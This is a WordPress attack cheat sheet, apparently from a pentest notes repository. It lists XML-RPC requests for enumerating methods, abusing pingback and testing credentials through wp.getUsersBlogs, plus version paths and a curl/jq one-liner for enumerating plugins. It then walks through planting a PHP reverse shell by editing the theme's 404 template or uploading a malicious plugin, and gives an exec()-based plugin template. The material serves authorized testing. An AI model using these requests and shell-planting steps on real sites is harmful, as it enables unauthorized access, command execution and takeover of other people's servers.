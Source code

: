 ### List possible methods using rpc api
```
POST /xmlrpc.php HTTP/1.1
Host: <domain>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Length: XXX

<methodCall>  
<methodName>system.listMethods</methodName>  
<params></params>  
</methodCall>  
```

### Example - send a ping
```
POST /xmlrpc.php HTTP/1.1
Host: <domain>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Length: XXX

<methodCall>  
<methodName>pingback.ping</methodName>  
<params><param>  
<value><string>http://XXX.XXX.XXX.XXX:XX</string></value>  
</param><param><value><string>https://<domain>/wordpres?p=1</string>  
</value></param></params>  
</methodCall>  
```

### Methods for enumeration
```
wp.getUserBlogs
wp.getCategories
metaWeblog.getUsersBlogs

<methodCall>  
<methodName>wp.getUsersBlogs</methodName>  
<params>  
<param><value>username</value></param>  
<param><value>password</value></param>  
</params>  
</methodCall>  
```

### Version paths
```
/wp-content/themes/<theme-slug>
/wp-content/themes/<slug>/style.css
/wp-content/plugins/<slug>/readme.txt'
```

### Enumerate Plugins
```
curl -s "https://<rhost>/wp-json" | jq -r '.routes | keys[]' | egrep -v '^(/wp/v[0-9]|/oembed/|/$)' | egrep -o '^/[^/]+' | sort -u 
```

### Upload reverse shell with admin access - using custom 404 page
```
Appearance > Editor/Theme Editor > Theme Files > 404/404 Template > Selected file content > <phpReverseShell> > Update File
```

### Upload reverse shell with admin access - using malicious plugin
```
Plugins > Add New > Upload Plugin > Browse > Choose PHP reverse shell (rev.zip) > Install > Activate Plugin
```

### Template of PHP reverse shell
```
<?php
/**
* Plugin Name: Wordpress Reverse Shell
* Author: Haxxor
*/

exec("<command>")  
?>  
```

